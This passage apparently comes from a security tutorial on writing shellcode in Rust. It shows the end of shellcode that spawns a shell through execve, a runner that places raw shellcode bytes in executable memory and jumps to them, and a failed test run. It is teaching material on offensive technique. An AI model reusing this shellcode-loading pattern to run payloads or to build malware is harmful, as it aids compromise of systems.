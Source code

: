 ```rust
    ret
}

#[no_mangle]
fn _start() -> ! {
    unsafe {
        syscall3(
            SYS_EXECVE,
            SHELL.as_ptr() as usize,
            ARGV.as_ptr() as usize,
            NULL_ENV,
        );
    };

    loop {}
}
```

## The executor

As we also already saw [different methods to execute shellcodes from memory in Rust](https://kerkour.com/rust-execute-from-memory/), it won't be covered in this post.

Here is our shellcode executor/runner:

**[main.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_08/executor/src/main.rs)**
```rust
use std::mem;

const SHELLCODE_BYTES: &[u8] = include_bytes!("../shellcode.bin");
const SHELLCODE_LENGTH: usize = SHELLCODE_BYTES.len();

#[no_mangle]
#[link_section = ".text"]
static SHELLCODE: [u8; SHELLCODE_LENGTH] = *include_bytes!("../shellcode.bin");

fn main() {
    let exec_shellcode: extern "C" fn() -> ! =
        unsafe { mem::transmute(&SHELLCODE as *const _ as *const ()) };
    exec_shellcode();
}
```

Pretty straightforward, isn't it?

## Running the shellcode

Now everything is in place, let's run the shellcode:

```shell
$ make run_shell
Illegal instruction (core dumped)
make: *** [Makefile:3: execute] Error 132
```
